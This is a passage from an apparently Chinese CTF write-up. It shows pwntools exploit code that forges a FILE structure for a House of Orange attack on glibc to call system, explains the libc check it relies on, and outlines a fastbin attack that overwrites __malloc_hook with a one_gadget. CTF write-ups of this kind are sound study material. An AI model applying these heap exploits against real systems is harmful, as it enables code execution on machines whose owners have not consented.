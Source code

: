 ```python
hso_fake_file += p64(libc_addr + e.symbols["_IO_list_all"] - 0x10)
hso_fake_file += p64(2) + p64(3)
hso_fake_file += "\x00" * 0x10
hso_fake_file += p64(0x0106040f01130301)#"\x00" * 8
hso_fake_file += p64(0x4000161302011409)
hso_fake_file += "\x00" * 0x10
hso_fake_file += p64(0)
hso_fake_file += p64(0)
hso_fake_file += p64(0)#"\x00" * 8
hso_fake_file += p64(system_addr)
# hso_fake_file += p64(0)
# hso_fake_file += p64(0)
# hso_fake_file += "\x00" * (0xc0-0x90) + p64(0)
# hso_fake_file += "\x00" * 0x10 + p64(heap_addr + 0x210b0 + 0x60)

malloc(0, "A" * 0x40 + hso_fake_file)
#0x40跨了一个0x30的chunk，溢出到unsorted bin做house of orange
malloc(10, "\x00")
sh.interactive()
```

其实house of orange还有一个坑，只有当libc的低DWORD为负数的时候，才有效，具体是要让`_IO_list_all`中第一个元素（在main arena上）不过这个check，不然就会通过虚表call到main arena上面去，具体跟一下就知道了。。。

```c
      if (((fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base)
                        //第二个一般为false，因为一般fp->_IO_write_ptr == fp->_IO_write_base
                        //因为它们事实上在内存位置上是同一个bin
	   || (_IO_vtable_offset (fp) == 0
	       && fp->_mode > 0 && (fp->_wide_data->_IO_write_ptr
				    > fp->_wide_data->_IO_write_base))
           //这个一般为true，因为访问到了两个不同的bin的libc地址，
           //而_IO_write_ptr在内存位置的后面，所以值（实际上是libc中的地址）要更大
           //具体跟一下就知道了
	   )
	  && _IO_OVERFLOW (fp, EOF) == EOF)//call虚表的宏
```

所以，根据他的逻辑，只要`fp->_mode <= 0`就会循环到链表中第二个元素call虚表，即我们的system

# 0x04 可能的另一种非预期解

利用fastbin attack写malloc free，应该也可行。

这个还不用leak heap，多简单。。。

大概应该是先跟我一样构造一个unsorted bin，然后`malloc(0x10);show();free()`再`malloc(0x60);free()`，此时fastbin中0x20有1个，0x70有一个，然后再`malloc(0)`并且溢出到`0x70`的那个chunk，改写fd指针。再`malloc(0x60)`两次就可以改写`__malloc_hook`成`one_gadget`了，这个貌似比我上面的方法简单的多。。。我怎么当时没想到呢，还是太菜了。。。